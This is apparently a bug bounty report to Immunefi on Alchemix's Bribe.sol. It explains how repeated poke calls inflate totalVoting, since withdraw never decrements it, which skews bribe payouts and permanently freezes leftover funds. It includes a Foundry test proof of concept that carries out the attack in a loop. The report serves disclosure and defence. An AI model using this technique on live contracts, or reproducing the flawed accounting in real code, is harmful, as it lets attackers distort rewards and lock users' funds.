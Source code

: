 
# Incorrect accounting of `totalVoting` leads to permanent freeze of funds in Bribe contract and incorrect bribe distribution.

Submitted on Mon May 20 2024 18:33:37 GMT-0400 (Atlantic Standard Time) by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31520

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of funds

## Description
## Brief/Intro
Incorrect accounting of `totalVoting` leads to permanent freeze of funds in Bribe contract and incorrect bribe distribution.

## Vulnerability Details

In `Voter.sol` In an epoch user can vote by calling `vote` function or poke by calling `poke` function if user has already voted in that epoch or previous epoch. 
User is also allowed to call `poke` function multiple times in an epoch, calling `poke` function multiple times does not changes the vote and does not inflate voting power. 
When vote or poke is called in an epoch, user becomes eligible for claiming bribes in next epoch. When user calls `vote` or `poke` function two external calls are made to bribe contract `withdraw` and `deposit` functions respectively . when voting power is zero call to `withdraw` function is skipped.

In `Bribe.sol`
```solidity
function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }
```
When `deposit` is called these state variables `totalSupply`,`balanceOf[tokenId]` and `totalVoting` are updated with voting power of user.

In `Bribe.sol`
```
function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
But when `withdraw` is called only `totalSupply` and `balanceOf[tokenId]` state variables are updated.

```
function earned(address token, uint256 tokenId) public view returns (uint256) {
       //...//
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes; // getting inflated totalVotes

               //...//
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
       //...//
       uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes; // getting inflated totalVotes 
        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```

The issue is when poke is called by a user multiple times `totalVoting` is inflated which causes incorrect calculation of bribe reward for all the participating users.

  > The POC steps are as follows
* User A and User B(BlackHat) create two token with same amount and maxLock enabled.
* In Epoch 1 user A votes in `Voter.sol` contract by calling `vote` function .
* User B (BlackHat) votes  in `Voter.sol` contract by calling `vote` function
* User B calls `poke` function multiple times from `Voter.sol` contract and inflating `totalVoting` variable of Bribe contract.
* Epoch 2 starts and now both user claims their bribes but because of BlackHat   both user gets incorrect bribes less than what they should have gotten , they should have received  half of total token balance of Bribe contract each.
* The bribe contract is left with remaining token balance which cannot be claimed later.


## Impact Details
* The vulnerability leads to incorrect bribe distribution , all voter receives less bribe reward than they should have received.
* The remaining bribe reward is forever locked in the bribe contract.
* Funds are lost for protocol and participating users.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L303-329
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L221-280

        
## Proof of concept
## Proof of Concept
* Add this test to `src/test/Voting.t.sol` and run with
`forge test --mt testPocBribeAccountingErrorwithPoke  --rpc-url $RPC_URL -vvvv`
```solidity
    function testPocBribeAccountingErrorwithPoke() public {

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); 
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); 

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef votes
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
    
        //admin(BLACKHAT) votes
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        //Attack happening here
        for(uint256 i = 0;i<10;i++){
            vm.prank(admin);
            voter.poke(tokenId1);
        }
        

        //start 2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        uint256 balanceEnd = IERC20(bal).balanceOf(bribeAddress);
        assertGt(balanceEnd,0,"balance should have been zero but it is greater than 0");
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        // start 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //remaining balance is locked in the contract and can no longer be claimed
        assertEq(balanceEnd1,balanceEnd);

    }
```